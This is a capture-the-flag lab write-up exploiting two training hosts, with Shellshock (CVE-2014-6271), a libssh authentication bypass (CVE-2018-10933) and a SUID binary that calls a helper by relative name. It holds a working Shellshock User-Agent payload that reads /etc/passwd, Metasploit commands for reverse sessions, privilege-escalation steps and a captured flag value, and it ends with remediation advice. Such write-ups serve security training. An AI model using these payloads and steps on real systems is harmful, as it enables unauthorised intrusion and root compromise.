# CTF Report: System/Host-Based Attacks II

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target 1:** target1.ine.local (192.94.52.3) — Linux, Apache httpd 2.4.6, CGI<br>
**Target 2:** target2.ine.local (192.94.52.4) — Linux, libssh 0.8.3<br>
**Objective:** Capture all four flags.

## 1. Executive Summary

Target 1 runs an Apache CGI script vulnerable to **Shellshock (CVE-2014-6271)**, exploited
via a crafted `User-Agent` header to execute commands and read files. Target 2 exposes
**libssh 0.8.3**, vulnerable to the **authentication bypass (CVE-2018-10933)**; after
landing a shell, a misconfigured **SUID** binary (`welcome`, which calls `greetings` by
relative name) is abused to run an arbitrary payload as root. Four flags are recovered.

## 2. Target 1 — Recon

```bash
ping -c 4 target1.ine.local      # 192.94.52.3
nmap -sV -O -p- target1.ine.local
```





Default scripts: HTTP title "Browser Detector", risky method TRACE.

```bash
nmap -sV -sC -p 80 target1.ine.local
```



The site is a "Modern Art Gallery" served by a CGI script (`browser.cgi`).



## 3. Shellshock (CVE-2014-6271)

Confirming the vulnerability with the Nmap NSE script.

```bash
nmap -sV target1.ine.local --script=http-shellshock --script-args "http-shellshock.uri=/browser.cgi"
```



Exploiting it manually through Burp — intercepting the `GET /browser.cgi/` request and
injecting a Shellshock payload into the `User-Agent` header.

```http
User-Agent: () { :; }; echo; echo;/bin/bash -c 'cat /etc/passwd'
```



The server returns `/etc/passwd`, confirming command execution.



## 4. Flags 1 & 2 — Metasploit Shellshock

Using the Metasploit module to get an interactive session.

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set LHOST 192.94.52.2
set LPORT 1234
set RHOSTS 192.94.52.3
set TARGETURI /browser.cgi
exploit
```



From the session the flags are read from their locations:

- **Flag 1** — `/` (root directory)
- **Flag 2** — `/opt/apache/htdocs/`

## 5. Target 2 — Recon

```bash
ping -c 4 target2.ine.local      # 192.94.52.4
nmap -sV -O -p- 192.94.52.4
```



Only SSH is open — **libssh 0.8.3**.





Fingerprinting the SSH server and confirming the version.

```bash
use auxiliary/scanner/ssh/ssh_version
run
```



A credential brute-force (`ssh_login`) yields nothing.



## 6. libssh Auth Bypass (CVE-2018-10933)

```bash
use auxiliary/scanner/ssh/libssh_auth_bypass
set ACTION Shell
exploit
sessions 5
```

A command-shell session opens without any credentials.



## 7. Flag 3 & SUID Enumeration

The user's home holds `flag.txt` and two binaries, `welcome` and `greetings`.

```bash
ls /home/user      # flag.txt  greetings  welcome
```

- **Flag 3** — `/home/user/flag.txt`



`welcome` is **SUID root** (`-rwsr-xr-x`); `greetings` is root-only (`-rwx------`). Running
`welcome` succeeds; `greetings` is denied.



`strings welcome` shows it uses `setuid`/`system` and calls `greetings` by relative name.

```bash
strings welcome      # setuid, system, greetings
```



## 8. Flag 4 — SUID Privilege Escalation

Since `welcome` invokes `greetings` as root, we can't overwrite `greetings` directly, but we
can rename it and drop our own payload in its place.

```bash
mv greetings gr
cp /bin/bash greetings
welcome              # runs our bash as root
```



`welcome` now spawns a **root** shell, and the final flag is in `/root`.

```bash
cd /root
cat flag.txt
# FLAG4_4ff3f8bf42f84cf78fbb1d67f4e70a7b
```



## 9. Remediation Recommendations

1. **Patch Bash/Shellshock** (CVE-2014-6271) and disable or sandbox legacy CGI scripts.
2. **Upgrade libssh** past 0.8.3 to remediate the authentication bypass (CVE-2018-10933).
3. **Fix the SUID binary:** call helper programs by absolute path, drop privileges before
   `system()`, and audit/remove unnecessary SUID-root binaries.
4. **Apply least privilege** and file integrity monitoring on user-writable directories.
